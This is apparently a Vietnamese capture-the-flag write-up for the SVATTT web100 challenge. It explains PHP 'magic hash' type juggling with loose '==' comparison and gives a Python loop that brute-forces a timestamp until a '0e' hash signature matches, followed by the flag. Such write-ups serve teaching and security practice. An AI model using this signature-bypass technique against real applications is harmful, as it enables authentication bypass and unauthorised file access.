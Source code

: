 
http://readfile.svattt.org:8888/web100.php.bak</br>
Khi mà bắt đầu giải quyết vấn đề này, thực sự khá khó khăn khi chỉ nhìn về mỗi biến $secretkey. Cho đến khi chú ý đến $sig == $realsig. Một thứ gì đó gợi nhớ đến PHP type juggling. Và chính xác đó là Comparison Issues…Một trong những lỗi cơ bản trong PHP.
</br>
Có thể giải thích điều này như sau:
</br>
Nếu một chuỗi được chuyển đổi sang một phao sau đó chúng ta có thể kết hợp nhiều. Bất cứ thứ  gì mà sau regex của 0+[eE]\d + sẽ cho kết quả là 0. Mọi người sẽ nghĩ rằng 1[eE]\d sẽ cũng làm việc như 1 cũng như với bất cứ thứ gì được cho là 1, nhưng đây không phải là cách, strtod () chức năng thực sự hoạt động. Bây giờ, chúng ta hãy xem xét một số ví dụ so sánh để nhìn thấy điều này làm việc:
</br>
$input = $_GET['input'];</br>
if ($input == "0e94323") {</br>
        print("$input == 0e94323 ");</br>
}</br>
if ($input == "00e19384") {</br>
        print("$input == 00e19384 ");</br>
}</br>

localhost/test.php?input=0 </br>

0 == 0e94323 </br>
0 == 00e19384</br>

Nhớ lại một điều việc sử dụng phép so sánh với “==” trong php. Bạn có thể nhìn vào bảng sau được cung cấp bởi Gynyael Coldwing với link https://docs.google.com/spreadsheets/d/1oWsmTvEZcfgc_1QkBczNGA3Gcffg_pmgKcak7iZldUw/pub?output=html .
</br>Bây giờ hãy nhìn vào biến $sig = 0e462097431906509019562988736854. Biến này được khai báo ngẫu nhiên với một mã hash 32 ký tự bắt đầu với số 0. Khi sử dụng nó so sánh với một biến mang mã hash, chúng ta sẽ đạt được giá trị TRUE như đã phân tích ở trên.
</br>def work():
</br>	while True:
</br>		url = 'http://readfile.svattt.org:8888/web100.php' #filename=flag.php&timestamp=13371337&sig=d7a52c3ed325ef19'
</br>		payload = {'filename': filename, 'timestamp': random.randint(0, 10000000), 'sig': sig }

</br>		r = requests.get(url, params=payload)
</br>		text = r.content

</br>		if 'Invalid Signature!' not in text:
</br>			print text 
</br>			break
</br>Nó thực sự là một kĩ thuật bruteforce với tham số timestamp cho đến khi ta đã được một mã hash có thể so sánh với $sig nhập vào và đạt được giá trị là TRUE với kí tự 0.
</br>Got it.

Flag: SVATTT{N0_m0r3_h4sh_3xtens10n_4tt4ck}
